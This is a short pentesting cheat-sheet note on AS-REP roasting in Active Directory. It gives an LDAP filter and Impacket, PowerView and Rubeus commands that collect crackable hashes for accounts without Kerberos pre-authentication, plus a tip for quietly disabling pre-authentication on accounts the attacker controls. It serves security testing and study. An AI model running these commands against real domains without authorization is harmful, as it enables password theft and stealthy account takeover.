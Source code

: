 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#impacket #powershell #rubeus
- Also known as targeted kerberoasting.
- In kerberos, pre-authentication is required for users. 
- Pre-Authentication is when a user sends the timestamp encrypted with it's kerberos key to request TGT (AS-REQ)
- In some cases, some users may have the `DONT_REQUIRE_PREAUTH` flag set. These users don't need to encrypt their timestamp with their kerberos key, hence anyone can create AS-REQ as that user and receive AS-REP encrypted with these users's key.
- AS-REProast involves impersonating these users and receiving the AS-REP. The AS-REP can be cracked offline to recover the password of the user.
- LDAP filter to query users without pre-authentication.
```ldap
(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))
```
- Impacket's GetNPUsers.py script can be used to get the users without pre-authentication and get their AS-REP data.
```bash
# Authenticated bind. Can fetch users automatically.
GetNPUsers.py 'mydomain.local/drdragon:Password!!' -dc-ip <IP> -outputfile asrep-hashes.txt

# Supply username
GetNPUsers.py 'mydomain.local/' -usersfile username.txt -dc-ip <IP> -outputfile asrep.hash
```
- Powerview
```powershell
Get-DomainUser -PreauthNotRequired -Verbose
```
- Active Directory Module
```powershell
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```
- Rubeus
```powershell
.\Rubeus.exe asreproast
```
---
If a user has `GenericAll` or `GenericWrite` on another user, they can turn enable `DONT_REQUIRE_PREAUTH` and then request for TGT for that account. This is preferred over password reset because, password is much more noisy that turning of `DONT_REQUIRE_PREAUTH`.